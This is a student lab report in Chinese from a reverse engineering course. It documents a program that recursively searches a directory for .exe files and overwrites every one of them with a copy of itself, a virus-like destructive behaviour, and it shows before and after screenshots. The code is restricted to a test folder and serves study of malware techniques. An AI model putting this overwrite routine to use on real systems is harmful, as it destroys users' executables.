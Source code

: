 # 逆向工程实验三
## 作业二
### 实验目的
- 阅读 [微软官方文档](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)
- 学习 CreateFile、WriteFile、ReadFile、CloseHandle、FindFirstFile，FindNextFile等几个API函数。

### 实验要求
**编程实现以下功能：**
1. 遍历磁盘，找出磁盘中的全部exe文件；
   - 由于本实验有危险，故遍历文件时只遍历指定目录`C:\Users\12149\Source\Repos\Panda\Debug\target`，避免误伤系统文件和其他有用的文件。
  
2. 替换所有exe文件为自身。

### 实验步骤
[完整脚本](replace.cpp)

#### 运行前
- *C:\Users\12149\Source\Repos\Panda\Debug\target*
  - 该目录下有`7z1900.exe`,`allplan_start.exe`,`BCClipboard.exe`等共计三个exe文件及名为`1`的文件夹。
![](./img/target.png)
- *C:\Users\12149\Source\Repos\Panda\Debug\target\1*
  - 该目录下有`BCompare.exe`等共计一个exe文件及名为`2`的文件夹。
![](./img/target-1.png)
- *C:\Users\12149\Source\Repos\Panda\Debug\target\1\2*
  - 该目录下有`cli.exe`等共计一个exe文件
![](img/target-1-2.png)

#### 关键代码
- 遍历磁盘，找出磁盘中的全部exe文件
```c
class ProcessFile
{
private:
    vector<string>  result;
public:
    vector<string>  getResult()
    {
        auto   t = result;
        result.clear();
        return t;
    }

    void findall(char* path)
    {
        WIN32_FIND_DATA findData;//保存搜索得到的文件信息
        char buffer[MAX_PATH] = { 0, };
        sprintf(buffer, "%s\\*.*", path);
        HANDLE aim = FindFirstFile(buffer, &findData);//获取指定目录的第一个文件
        char* kind = "exe"; //规定搜索的文件类型为exe
        string target;

        if (aim != INVALID_HANDLE_VALUE) {
            //搜索下一个文件
            while (FindNextFile(aim, &findData))
            {
                if (strcmp(findData.cFileName, ".") == 0 || strcmp(findData.cFileName, "..") == 0)
                {
                    continue;
                }

                if (findData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
                {
                    ZeroMemory(buffer, MAX_PATH);
                    sprintf(buffer, "%s\\%s", path, findData.cFileName);
                    findall(buffer);
                }

                else
                {
                    int l = strlen(buffer);
                    buffer[l - 1] = '\0';
                    //printf("%s%s\n", buffer, findData.cFileName);
                    buffer[l - 1] = '*';
                    buffer[l] = '\0';
                    //得到文件的绝对路径
                    target.assign(path);
                    target += '\\';
                    target.append(findData.cFileName);
                    int len = strlen(kind);
                    //判断是否为exe文件，若是，则将绝对路径返回给result
                    if (target.substr(target.size() - len) == kind)
                    {
                        result.push_back(target);
                    }

                }
            }
        }
        //释放FindFirst分配的内存
        FindClose(aim);

        if (aim == INVALID_HANDLE_VALUE)
        {
          cout<< "ERROR!" << endl;
          system("pause");
          exit(-1);
        }
    }
};
```
- 替换所有exe文件为自身
```c
char self[MAX_PATH] = { 0 };
GetModuleFileName(NULL, self, MAX_PATH);//获取可执行文件self的绝对路径

auto result = p.getResult();

for (int i = 0; i < result.size(); i++)
  {
    //将self复制到每一个搜索到的exe文件并覆盖
    CopyFile(self, result[i].c_str(), FALSE);
  }
```

#### 运行后
**所有exe文件都被替换为自身**
- *C:\Users\12149\Source\Repos\Panda\Debug\target*
![](./img/aft-target.png)
- *C:\Users\12149\Source\Repos\Panda\Debug\target\1*
![](./img/aft-target-1.png)
- *C:\Users\12149\Source\Repos\Panda\Debug\target\1\2*
![](img/aft-target-1-2.png)
